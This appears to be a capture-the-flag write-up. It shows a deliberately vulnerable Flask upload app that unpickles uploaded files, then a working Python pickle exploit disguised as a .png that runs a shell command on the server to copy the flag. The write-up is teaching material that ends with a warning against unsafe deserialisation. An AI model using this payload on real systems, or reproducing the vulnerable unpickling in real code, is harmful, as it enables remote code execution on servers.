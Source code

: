 They give the source code of the webapp in challenge so lets take a look at it.
```
import uuid
from flask import *
from flask_bootstrap import Bootstrap
import pickle
import os

app = Flask(__name__)
Bootstrap(app)

app.secret_key = 'sup3r s3cr3t k3y'

ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

images = set()
images.add('bibimbap.jpg')
images.add('galbi.jpg')
images.add('pickled_kimchi.jpg')

@app.route('/')
def index():
    return render_template("index.html", images=images)

@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if request.method == 'POST':
        image = request.files["image"]
        if image and image.filename.split(".")[-1].lower() in ALLOWED_EXTENSIONS:
            # special file names are fun!
            extension = "." + image.filename.split(".")[-1].lower()
            fancy_name = str(uuid.uuid4()) + extension

            image.save(os.path.join('./images', fancy_name))
            flash("Successfully uploaded image! View it at /images/" + fancy_name, "success")
            return redirect(url_for('upload'))

        else:
            flash("An error occured while uploading the image! Support filetypes are: png, jpg, jpeg", "danger")
            return redirect(url_for('upload'))

    else:
        return render_template("upload.html")

@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```
So, the website allows you to upload an image, and then it stores it in the "images/" directory with a random name.

You're only allowed to post .png, .jpg, and .jpeg files.
It determines the file type by the file name, and not by the contents of the file.
This means that so long as it ends in the above extensions it will allow the upload.

Let's also take a look at the "display_image" function.
When you try to go to an image in the images/ directory, it will try to unpickle the file, and regardless of whether the "pickle.loads" returns anything, will redirect you to the image.

What is pickling?

If you're familiar with PHP, pickling is the same as serialize/unserialize. More info can be found in the [docs](https://docs.python.org/3/library/pickle.html)

However, unpickling user input is very dangerous, as when something is unpickled, it is executed immediately.

The game plan for attack is to write serialized data to a file, upload it, then access the file, causing our code to be executed on the server.

For this I created a script to cat the flag.txt into an arbitrary file in the images directory. With special help from [SecureFlag](https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_python.html) :)
```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ("cat flag.txt > images/flaggerino")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open('exploit.png', 'wb') as file:
        file.write(pickled)
```

If we upload the png, then go to /images/flaggerino, we'll get the flag!

Moral of the story, DON'T UNSERIALIZE UNSANITIZED USER INPUT!!!!
